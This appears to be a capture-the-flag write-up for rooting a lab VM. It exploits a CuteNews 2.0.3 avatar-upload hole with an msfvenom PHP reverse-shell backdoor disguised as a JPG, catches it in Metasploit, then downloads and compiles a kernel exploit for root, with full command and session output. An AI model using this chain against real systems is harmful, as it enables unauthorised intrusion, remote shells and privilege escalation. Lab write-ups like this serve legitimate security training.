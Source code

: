 
    Service enumeration
    Check for vulnerabilities
    Exploitation
    Privilege Escalation
    Read Flag in /root

Breaching Methodology:

    Network Scanning (Netdiscover, Nmap)
    Enumerate File upload vulnerability (searchsploit)
    Generate PHP Backdoor (Msfvenom)
    Upload and execute a backdoor
    Reverse connection (Metasploit)
    Import python one-liner for proper TTY shell
    Kernel Privilege Escalation
    Get Root access and capture the flag.



## Step 1 - Recon
> netdiscover  
##### to discover the ip address of VM

## Step 2 - Recon advanced ports and Services
> nmap 
>
>nmap [nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.56.101]
>
>nikto [nikto -h 192.168.56.101]

## [step 3] Directory
> directory buster [dirb  192.168.156.101]
>
> nikto [nikto -h 192.168.56.101]

#### Then after opening the ip in browser I got a sign-in page and register page.Register in page.
>On scanning, you will find that port 80 is open which will be pointing toward cutenews. So we will now open it on our browser.
>Now we can see that our target is using CuteNews v.2.0.3 and the good news is it is exploitable, so let’s search for its exploit:
>
>searchsploit cutenews 2.0.3 [exploit-db-link](https://www.exploit-db.com/exploits/37474)
>
>Upon searching for the exploit we can see that we have the path for the exploit. Follow the path and go to the exploit’s “.txt” file. In the text file you find the instructions to upload the file. First thing it tells us to register on the website in order to have the power to upload a file.
>
>upload php file of jpg file generated by msfvenom in avatar.
>
>root@kali:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.126.202 LPORT=1234 -a php --platform php -o backdoor.jpg
>
>then start the msfconsole>meterpreter.

so its a Ubuntu box running 14.04.2 And we also got kernel version.So let's find its vulnrerability in exploit-db.

There were a few and after trying some of them and not having any success I got to this one

https://www.exploit-db.com/exploits/37292/

Lets navigate to the tmp folder and try to download the exploit.

download the file and execute it, we'll get a root #  then execute to open /bin/bash
>
>awk 'BEGIN {system("/bin/bash")}'
>
>root$~ ls /root/flag.txt

```
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.43.70
lhost => 192.168.43.70
msf exploit(multi/handler) > set lport 9898
lport => 9898
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.43.70:9898 
[*] Sending stage (37775 bytes) to 192.168.43.70
[*] Meterpreter session 1 opened (192.168.43.70:9898 -> 192.168.43.70:50812) at 2019-01-16 23:04:51 +0530

meterpreter > sysinfo
Computer    : simple
OS          : Linux simple 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686
Meterpreter : php/linux
meterpreter > shell
Process 1511 created.
Channel 0 created.

awk 'BEGIN {system("/bin/bash")}'

python -c 'import pty ; pty.spawn("/bin/bash")'
www-data@simple:/var/www/html/uploads$ uname -a
uname -a
Linux simple 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686 i686 i686 GNU/Linux
www-data@simple:/var/www/html/uploads$ cat /etc/lsb-release
cat /etc/lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.2 LTS"
www-data@simple:/var/www/html/uploads$ awk 'BEGIN {system("/bin/bash")}'
awk 'BEGIN {system("/bin/bash")}'
www-data@simple:/var/www/html/uploads$ wget https://www.exploit-db.com/download/36746 -O app.c
<ml/uploads$ wget https://www.exploit-db.com/downloa                      d/36746 -O app.c
--2019-01-16 12:42:34--  https://www.exploit-db.com/download/36746
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8, 64:ff9b::c07c:f908
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5216 (5.1K) [application/txt]
Saving to: 'app.c'

 0% [                                       ] 0           --.-K/s         100%[======================================>] 5,216       --.-K/s   in 0s      

2019-01-16 12:42:36 (2.49 MB/s) - 'app.c' saved [5216/5216]

www-data@simple:/var/www/html/uploads$ gcc app.c -o app -static
gcc app.c -o app -static
app.c:17:3: warning: #warning this file must be compiled with -static [-Wcpp]
 # warning this file must be compiled with -static
   ^
www-data@simple:/var/www/html/uploads$ ./app
./app
uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
# awk 'BEGIN {system("/bin/bash")}'
awk 'BEGIN {system("/bin/bash")}'
root@simple:/var/www/html/uploads# ls
ls
app  app.c  avatar_tikam_shell.php
root@simple:/var/www/html/uploads# ls -la
ls -la
total 752
drwxrwxrwx 2 root     root       4096 Jan 16 12:42 .
drwxrwxrwx 7 root     root       4096 Sep 10  2015 ..
-rwsr-xr-x 1 root     root     746987 Jan 16 12:42 app
-rw-r--r-- 1 www-data www-data   5216 Jan 16 12:42 app.c
-rw-r--r-- 1 www-data www-data   1114 Jan 16 12:17 avatar_tikam_shell.php
root@simple:/var/www/html/uploads# ls /root
ls /root
flag.txt
root@simple:/var/www/html/uploads# cat /root/flag.txt
cat /root/flag.txt
U wyn teh Interwebs!!1eleven11!!1!
Hack the planet!
root@simple:/var/www/html/uploads# 

```
